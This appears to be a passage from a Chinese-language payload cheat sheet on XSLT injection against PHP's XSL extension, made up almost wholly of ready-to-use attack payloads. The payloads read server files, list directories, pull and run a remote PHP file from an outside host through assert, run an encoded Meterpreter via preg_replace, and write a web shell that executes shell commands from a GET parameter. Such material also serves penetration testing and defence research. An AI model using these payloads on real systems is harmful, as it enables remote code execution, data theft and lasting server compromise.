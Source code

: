 执行函数 `readfile`。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<xsl:value-of select="php:function('readfile','index.php')" />
</body>
</html>
```

执行函数 `scandir`。

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:value-of name="assert" select="php:function('scandir', '.')"/>
  </xsl:template>
</xsl:stylesheet>
```

使用 `assert` 执行远程 PHP 文件。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
  <xsl:variable name="payload">
    include("http://10.10.10.10/test.php")
  </xsl:variable>
  <xsl:variable name="include" select="php:function('assert',$payload)"/>
</body>
</html>
```

使用 PHP 包装器执行 PHP meterpreter。

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:variable name="eval">
      eval(base64_decode('Base64-encoded Meterpreter code'))
    </xsl:variable>
    <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
  </xsl:template>
</xsl:stylesheet>
```

使用 `file_put_contents` 执行远程 PHP 文件。

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:value-of select="php:function('file_put_contents','/var/www/webshell.php','&lt;?php echo system($_GET[&quot;command&quot;]); ?&gt;')" />
  </xsl:template>
</xsl:stylesheet>
```
